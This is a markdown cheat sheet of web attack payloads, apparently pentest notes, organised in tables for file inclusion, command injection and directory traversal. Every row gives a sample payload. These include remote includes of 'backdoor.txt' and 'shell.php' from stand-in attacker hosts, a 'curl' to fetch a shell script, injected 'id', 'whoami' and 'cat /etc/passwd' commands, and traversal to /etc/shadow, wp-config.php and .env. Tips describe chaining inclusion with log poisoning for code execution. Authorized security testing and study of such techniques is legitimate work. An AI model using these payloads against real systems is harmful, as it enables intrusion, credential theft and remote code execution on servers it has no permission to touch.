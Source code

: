 ## 📁 FILE INCLUSION (LFI & RFI) — `Local & Remote File Loaders`

| Location Used | Endpoint Example | Method | Input Vector | Attack Surface / Clue | Sample Payload |
|---------------|------------------|--------|---------------|------------------------|----------------|
| Web Page Loader | `/index.php?page=home` | GET | `page` | Includes files like templates or HTML | `?page=../../../../etc/passwd` |
| Theme/Language Selectors | `/app.php?lang=en` | GET | `lang` | Loads language templates | `?lang=php://filter/convert.base64-encode/resource=config.php` |
| Plugin/Module loaders | `/loadmodule.php?mod=gallery` | GET | `mod` | Includes plugin logic dynamically | `?mod=http://evil.com/backdoor.txt` |
| API Templating | `/api/render` | POST | `template_name` | JSON body, server-side includes | `{"template_name": "http://attacker.com/shell.php"}` |
| Web Logs Viewer | `/admin/viewlog?file=access.log` | GET | `file` | File viewer for logs or archives | `?file=../../../../../../etc/shadow` |

🔍 **Tips**:
- RFI mostly works with PHP <5.3 or outdated configs (`allow_url_include=On`)
- Combine LFI with **Apache logs**, **access logs**, or **proc/self/environ** for code execution!

---

## 🧨 COMMAND INJECTION — When Your `Input Talks to the Shell`

| Endpoint | Method | Parameter | Indicator | Injection Sample |
|----------|--------|-----------|-----------|------------------|
| `/ping?host=127.0.0.1` | GET | `host` | Runs shell utility (`ping`, `traceroute`) | `127.0.0.1; id` |
| `/backup?filename=report` | GET | `filename` | Backup/restore scripts | `report; ls -la` |
| `/network/scan` | POST | `target` (JSON) | Accepts user input for system scanning | `{"target": "127.0.0.1 && whoami"}` |
| `/printer.cgi` | GET | Form field | Often legacy CGI scripts vulnerable | `test|curl http://attacker/shell.sh` |
| `/archive/create` | POST | `folder` | Compresses files (zip/tar) | `folder=/tmp; cat /etc/passwd` |

🛡 **Tips**:
- Try **blind techniques**: `; sleep 5`, `| ping -c 4 attacker.com`
- Test POST JSON too. APIs are goldmines.
- Check logs/headers if output is hidden (Blind CI)

---

## 🗂 DIRECTORY TRAVERSAL — `Involve a file path` to access sensitive files

| Endpoint | Method | Param | Where it Hits | Payload |
|----------|--------|--------|---------------|---------|
| `/view?file=about.html` | GET | `file` | Reads local server files | `?file=../../../../etc/passwd` |
| `/download.php?doc=invoice.pdf` | GET | `doc` | User documents/downloads | `?doc=../../../../../../boot.ini` |
| `/log?name=log1.txt` | GET | `name` | Log viewer or config | `?name=../../../wp-config.php` |
| `/readfile` | POST | `path` | JSON or Form input | `{"path": "../../../../etc/shadow"}` |
| `/static/file` | GET | `filename` | Public file loaders | `?filename=../../../app.py` |

🎯 **Targets to Traverse**:
- `/etc/passwd`, `/etc/shadow`, `boot.ini`, `web.xml`
- Apache logs: `/var/log/apache2/access.log`
- App config: `.env`, `config.php`, `db.yml`

🧠 **Traversal + LFI** → Lethal combo. Especially if `include($_GET[‘page’])` exists.
